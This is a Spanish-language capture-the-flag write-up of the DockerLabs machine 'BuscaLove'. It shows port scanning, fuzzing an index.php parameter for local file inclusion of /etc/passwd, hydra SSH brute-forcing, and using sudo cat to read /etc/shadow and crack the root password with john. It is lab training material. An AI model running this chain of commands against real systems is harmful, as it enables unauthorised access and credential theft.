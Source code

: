 #MAQUINA #DOCKERLABS #FACIL 
#LFI
<hr>

# RECONOCIMIENTO

Vamos a resolver **BuscaLove** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.18.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash
nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.18.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 13:28 CET
Initiating ARP Ping Scan at 13:28
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 13:28, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:28
Scanning 172.18.0.2 [65535 ports]
Discovered open port 22/tcp on 172.18.0.2
Discovered open port 80/tcp on 172.18.0.2
Completed SYN Stealth Scan at 13:28, 0.58s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-11-25 13:28:22 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:12:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

 nmap -sCV -p22,80 172.18.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 13:28 CET
Nmap scan report for 172.18.0.2
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:4c:b6:41:c4:e1:72:c3:7d:a0:ed:ca:0e:7a:bc:54 (ECDSA)
|_  256 66:61:de:8c:fb:5b:3b:f4:fb:b9:ca:69:b1:ac:6e:2e (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds



```

   ```bash

nmap --script="http-enum" 172.18.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 13:29 CET
Nmap scan report for 172.18.0.2
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /wordpress/: Blog
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Posible **wordpress**

## HTTP (80)

Al revisar la web que hay en el puerto 80, vamos a utilizar **wpscan** para ver si realmente el directorio wordpress lo utiliza.
El wpscan nos dice que no es wordpress. Utilizando **gobuster** sobre el directorio lo único interesantes es el index.php.
Vamos a utilizar wfuzz para intentar ver si es vulnerable a un posible **LFI**:

   ```bash

wfuzz -u "http://172.18.0.2/wordpress/index.php?FUZZ=/etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=40 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.18.0.2/wordpress/index.php?FUZZ=/etc/passwd
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

000001915:   200        66 L     148 W      2319 Ch     "love" 


```

# EXPLOTACION

Efectivamente -> **love** es el parámetro que debemos usar

Al apuntar el /etc/passwd -> Dos usuarios : **pedro** y **rosa**

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64        
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-25 13:40:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[STATUS] 489.00 tries/min, 489 tries in 00:01h, 14343952 to do in 488:54h, 22 active
[22][ssh] host: 172.18.0.2   login: rosa   password: lovebug
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 12 final worker threads did not complete until end.
[ERROR] 12 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-25 13:42:00


```
**usuario : rosa**
**contraseña: lovebug**
# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
rosa@5f45452576bc:~$ sudo -l
Matching Defaults entries for rosa on 5f45452576bc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rosa may run the following commands on 5f45452576bc:
    (ALL) NOPASSWD: /usr/bin/ls, /usr/bin/cat

```

Vemos **cat** con permisos SUDO cogemos el shadow y el passwd y lo intentamos crackear con john:
   ```bash
#formateo para que john entiend
unshadow passwd shadow > z 
#john the ripper
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt z 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
lovebug          (rosa)     
kittycat         (root) 

```

**usuario : root**
**contraseña: kittycat**

**YA ESTAMOS COMO ROOT.**